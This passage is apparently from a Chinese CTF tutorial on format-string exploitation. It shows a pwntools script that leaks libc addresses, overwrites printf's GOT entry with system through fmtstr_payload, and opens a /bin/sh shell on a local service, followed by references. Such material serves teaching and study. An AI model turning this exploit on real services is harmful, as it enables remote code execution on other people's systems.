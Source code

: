 ```python
    data = p.recvuntil(".AAA")[:-4] + "\x00"
    log.info("leaking: 0x%x --> %s" % (addr, data.encode('hex')))
    p.close()
    return data
# data = DynELF(leak, 0x08048490)     # Entry point address
# system_addr = data.lookup('system', 'libc')
# printf_addr = data.lookup('printf', 'libc')
# log.info("system address: 0x%x" % system_addr)
# log.info("printf address: 0x%x" % printf_addr)

## get shell
payload = fmtstr_payload(7, {printf_got: system_addr})
p = remote('127.0.1.1', '10001')
p.recvline()
p.sendline(payload)
p.recv()
p.sendline('/bin/sh')
p.interactive()
```

## 参考资料

- [Linux系统下格式化字符串利用研究](https://paper.seebug.org/246/)
- [33C3 CTF 2016 -- ESPR](http://bruce30262.logdown.com/posts/1255979-33c3-ctf-2016-espr)
